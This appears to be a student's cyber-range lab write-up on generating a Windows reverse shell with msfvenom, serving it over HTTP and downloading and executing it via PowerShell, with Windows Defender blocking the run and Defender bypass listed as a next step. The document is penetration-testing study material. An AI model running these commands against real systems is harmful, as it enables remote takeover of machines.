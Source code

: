 
# 🔥 Reverse Shell Payload Deployment Attempt — Lab Documentation

## 🧪 Objective
Simulate remote code execution (RCE) on a Windows Server 2025 target by crafting and delivering a reverse shell payload from a Kali Linux attacker machine.

---

## 🧠 Attacker Setup (Kali Linux)

**IP Address:** `192.168.1.3`  
**Payload Type:** `windows/x64/shell_reverse_tcp`  
**Listener:** Metasploit handler on port `4444`

### Payload Generation (msfvenom):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o revshell.exe
```

### HTTP Server to Deliver Payload:
```bash
sudo python3 -m http.server 80
```

---

## 🧾 Download & Execution Attempt on Target (Windows Server)

### PowerShell Commands Used:
```powershell
Invoke-WebRequest -Uri http://192.168.1.3/revshell.exe -OutFile C:\Users\Public\revshell.exe
Start-Process C:\Users\Public\revshell.exe
```

---

## ❗ Result

- File was **successfully downloaded** to the Windows Server.
- **Execution was blocked by Windows Defender** with the following error:
  > "Operation did not complete successfully because the file contains a virus or potentially unwanted software."

---

## ✅ Achievements

- Confirmed **network connectivity**
- Validated **Metasploit listener was active**
- Successfully **transferred payload**
- Simulated **real-world AV detection** response

---

## 📌 Next Steps

- Test **Defender bypass** using encoded `msfvenom` payload
- Attempt **payload execution after disabling Defender** (lab safe mode)
- Begin **post-exploitation** (enumeration + privilege escalation)

---

👨‍💻 Oleh Borysovskyy  
📅 April 22, 2025  
🔒 Lab Environment: Air-gapped physical cyber range
